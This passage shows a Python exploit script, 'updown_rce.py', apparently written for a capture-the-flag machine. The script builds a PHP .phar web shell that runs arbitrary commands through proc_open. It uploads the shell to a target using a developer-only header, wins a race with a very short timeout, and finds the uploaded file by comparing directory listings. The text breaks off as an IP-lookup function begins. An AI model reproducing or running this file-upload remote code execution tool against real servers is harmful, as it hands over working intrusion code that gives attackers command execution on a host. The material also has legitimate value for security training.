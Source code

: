 Full script is found HERE.
```python
#!/usr/bin/env python3
# by 0xPThree - exploit.se
#
# Usage example:
# python3 updown_rce.py -r
# python3 updown_rce.py -c "ls -al"

from colorama import Fore, Style
import requests, argparse, time, re, random
import netifaces as ni

def createPayload(command):
    file_name = ''.join(random.choices("abcdef0123456789", k=12)) + ".phar"
    with open(file_name, 'w') as f:
        f.writelines([
f'''<?php
    $cmd = '{command}';

    $desc = array(array('pipe', 'r'), array('pipe', 'w'), array('pipe', 'w'));
    $pipes = array();

    $process = proc_open($cmd, $desc, $pipes);
    fclose($pipes[0]);
    $string = array(stream_get_contents($pipes[1]), stream_get_contents($pipes[2]));
    proc_close($process);

    print_r($string[0]);
?>

https://exploit.se'''
            ])
    return(file_name)


def uploadFile(url, file):
    # Declare variables
    headers = {'Special-Dev': 'only4dev'}
    files = {'file': open(file, 'rb')}
    data = {'check': 'check'}

    # Send GET to extract all md5 values
    cache_content = requests.get(url + 'uploads/', headers=headers)
    md5_pre = re.findall("[a-f0-9]{32}", cache_content.text)

    # Send POST to upload file
    try:
        requests.post(url, headers=headers, files=files, data=data, timeout=0.05)
    except requests.exceptions.ReadTimeout: 
        pass
    
    # Send GET to compare md5 value against first to extract unique path name
    cache_content = requests.get(url + 'uploads/', headers=headers)
    md5_post = re.findall("[a-f0-9]{32}", cache_content.text)
    md5_dir_list = list(set(md5_post) - set(md5_pre))
    md5_dir = md5_dir_list[0]
    
    full_url = url + 'uploads/' + md5_dir + '/' + file
    print(f"{Fore.GREEN}[+]{Style.RESET_ALL} File uploaded to: {full_url}")
    return(full_url)


def getIP():
```